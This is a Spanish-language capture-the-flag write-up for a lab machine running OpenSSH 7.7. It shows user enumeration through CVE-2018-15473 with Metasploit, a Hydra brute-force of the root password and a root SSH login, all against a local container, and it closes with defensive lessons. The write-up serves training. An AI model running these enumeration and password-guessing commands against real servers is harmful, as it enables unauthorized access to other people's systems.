

# Máquina Vulnerable: BreakMySSH
|                   | Detalle maquina original                        |
| ----------------- | ----------------------------------------------- |
| Autor             | [El Pingüino de Mario](https://github.com/Maalfer) |
| Dificultad        | Muy Fácil                                            |
| Fecha de creación | 29/05/2024                                      |
| Fecha del writeup | 10/12/2025                                      |
| Maquina original  | BreakMySSH                                      |
| CVE               | CVE-2018-15473                                  |

Máquina CTF enfocada en la explotación de vulnerabilidades en servicios SSH. Esta réplica implementa OpenSSH 7.7, vulnerable al CVE-2018-15473 que permite enumeración de usuarios válidos.

El objetivo es practicar técnicas de enumeración de usuarios SSH mediante el uso de Metasploit y posteriormente realizar ataques de fuerza bruta con Hydra. La máquina demuestra cómo una vulnerabilidad de divulgación de información (enumeración de usuarios) puede combinarse con contraseñas débiles para lograr acceso completo al sistema.

## Tabla de Contenidos

- [Estructura del Proyecto](#estructura-del-proyecto)
  - [Descripción de Archivos Principales](#descripción-de-archivos-principales)
- [Explotación](#explotación)
  - [Vulnerabilidades Implementadas](#vulnerabilidades-implementadas)
    - [CVE-2018-15473: OpenSSH Username Enumeration](#cve-2018-15473-openssh-username-enumeration)
  - [Seguridad Implementada](#seguridad-implementada)
  - [Flags](#flags)
- [Write-up Completo](#write-up-completo)
  - [Diagrama de Ataque](#diagrama-de-ataque)
  - [Paso 1: Reconocimiento - Escaneo de Puertos](#paso-1-reconocimiento---escaneo-de-puertos)
  - [Paso 2: Búsqueda de vulnerabilidades con searchsploit](#paso-2-búsqueda-de-vulnerabilidades-con-searchsploit)
  - [Paso 3: Enumeración de usuarios con Metasploit](#paso-3-enumeración-de-usuarios-con-metasploit)
  - [Paso 4: Ataque de fuerza bruta con Hydra](#paso-4-ataque-de-fuerza-bruta-con-hydra)
  - [Paso 5: Acceso SSH y obtención de la flag](#paso-5-acceso-ssh-y-obtención-de-la-flag)
- [Conclusión](#conclusión)
---

## Estructura del Proyecto
```
BreakMySSH
└── README.md               # Documentación del proyecto
```
---

## Explotación

### Vulnerabilidades Implementadas

#### CVE-2018-15473: OpenSSH Username Enumeration
- **Descripción**: Vulnerabilidad en OpenSSH versiones 2.3 a 7.7 que permite enumerar usuarios válidos del sistema
- **Vector de ataque**: Mediante paquetes malformados o ataques de timing se puede determinar si un usuario existe en el sistema
- **Impacto**: Divulgación de información - permite obtener lista de usuarios válidos
- **Explotación**: Mediante Metasploit (auxiliary/scanner/ssh/ssh_enumusers)

---

## Write-up Completo

### Diagrama de Ataque



### Paso 1: Reconocimiento - Escaneo de Puertos

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 172.17.0.2
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-10 21:37 EST
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

**Resultado**: Se identifica 1 puerto abierto:
- **Puerto 22 (SSH)**: OpenSSH 7.7

### Paso 2: Búsqueda de vulnerabilidades con searchsploit

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit OpenSSH 7.7
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                              | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                        | linux/remote/45210.py
OpenSSH < 7.7 - User Enumeration (2)                                                  | linux/remote/45939.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

**Resultado**: Se identifican varios exploits para enumeración de usuarios en OpenSSH 7.7

### Paso 3: Enumeración de usuarios con Metasploit

#### Paso 3.1: Búsqueda del módulo

```bash
msf > search openssh

Matching Modules
================

   #  Name                                         Disclosure Date  Rank    Check  Description
   -  ----                                         ---------------  ----    -----  -----------
   0  post/windows/manage/forward_pageant          .                normal  No     Forward SSH Agent Requests To Remote Pageant
   1  post/windows/manage/install_ssh              .                normal  No     Install OpenSSH for Windows
   2  post/multi/gather/ssh_creds                  .                normal  No     Multi Gather OpenSSH PKI Credentials Collection
   3  auxiliary/scanner/ssh/ssh_enumusers          .                normal  No     SSH Username Enumeration
   4    \_ action: Malformed Packet                .                .       .      Use a malformed packet
   5    \_ action: Timing Attack                   .                .       .      Use a timing attack
   6  exploit/windows/local/unquoted_service_path  2001-10-25       great   Yes    Windows Unquoted Service Path Privilege Escalation
```

#### Paso 3.2: Configuración del módulo

```bash
msf > use auxiliary/scanner/ssh/ssh_enumusers
[*] Setting default action Malformed Packet - view all 2 actions with the show actions command
msf auxiliary(scanner/ssh/ssh_enumusers) > show options

Module options (auxiliary/scanner/ssh/ssh_enumusers):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   CHECK_FALSE   true             no        Check for false positives (random username)
   DB_ALL_USERS  false            no        Add all users in the current database to the list
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s)
   RPORT         22               yes       The target port
   THREADS       1                yes       The number of concurrent threads (max one per host)
   THRESHOLD     10               yes       Amount of seconds needed before a user is considered found (timing attack only)
   USERNAME                       no        Single username to test (username spray)
   USER_FILE                      no        File containing usernames, one per line

msf auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
USER_FILE => /usr/share/wordlists/metasploit/unix_users.txt
msf auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
```

#### Paso 3.3: Ejecución del módulo

```bash
msf auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 172.17.0.2:22 - SSH - Using malformed packet technique
[*] 172.17.0.2:22 - SSH - Checking for false positives
[*] 172.17.0.2:22 - SSH - Starting scan
[+] 172.17.0.2:22 - SSH - User '_apt' found
[+] 172.17.0.2:22 - SSH - User 'backup' found
[+] 172.17.0.2:22 - SSH - User 'bin' found
[+] 172.17.0.2:22 - SSH - User 'daemon' found
[+] 172.17.0.2:22 - SSH - User 'games' found
[+] 172.17.0.2:22 - SSH - User 'gnats' found
[+] 172.17.0.2:22 - SSH - User 'irc' found
[+] 172.17.0.2:22 - SSH - User 'list' found
[+] 172.17.0.2:22 - SSH - User 'lp' found
[+] 172.17.0.2:22 - SSH - User 'mail' found
[+] 172.17.0.2:22 - SSH - User 'man' found
[+] 172.17.0.2:22 - SSH - User 'news' found
[+] 172.17.0.2:22 - SSH - User 'nobody' found
[+] 172.17.0.2:22 - SSH - User 'proxy' found
[+] 172.17.0.2:22 - SSH - User 'root' found
[+] 172.17.0.2:22 - SSH - User 'sync' found
[+] 172.17.0.2:22 - SSH - User 'sys' found
[+] 172.17.0.2:22 - SSH - User 'uucp' found
[+] 172.17.0.2:22 - SSH - User 'www-data' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Resultado**: Se identifican 19 usuarios válidos del sistema, incluyendo **root**

### Paso 4: Ataque de fuerza bruta con Hydra

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-10 21:58:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-12-10 21:58:53
```

**Resultado**: Contraseña encontrada: **root:estrella**

### Paso 5: Acceso SSH

```bash
┌──(kali㉿kali)-[~]
└─$ ssh root@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@cafb486b4ed9:~# whoami
root
```

**Resultado**: Acceso SSH exitoso como root ✓

## Conclusión

Esta máquina demuestra la cadena de ataque que combina una vulnerabilidad de enumeración de usuarios con contraseñas débiles para lograr compromiso completo del sistema.

**Lecciones aprendidas:**
1. **Enumeración de usuarios**: La vulnerabilidad CVE-2018-15473 permite obtener listas de usuarios válidos, facilitando ataques posteriores
2. **Contraseñas débiles**: Una contraseña débil ("estrella") en el usuario root permitió el acceso completo tras la enumeración
3. **Actualización de software**: OpenSSH 7.7 es vulnerable a enumeración de usuarios; mantener el software actualizado es crítico
4. **Políticas de contraseñas**: Implementar políticas de contraseñas robustas y rotación periódica
5. **Defensa en profundidad**: La combinación de divulgación de información + contraseña débil = compromiso total
6. **Monitoreo de intentos de acceso**: Los múltiples intentos de login deberían ser detectados y bloqueados por sistemas de prevención de intrusiones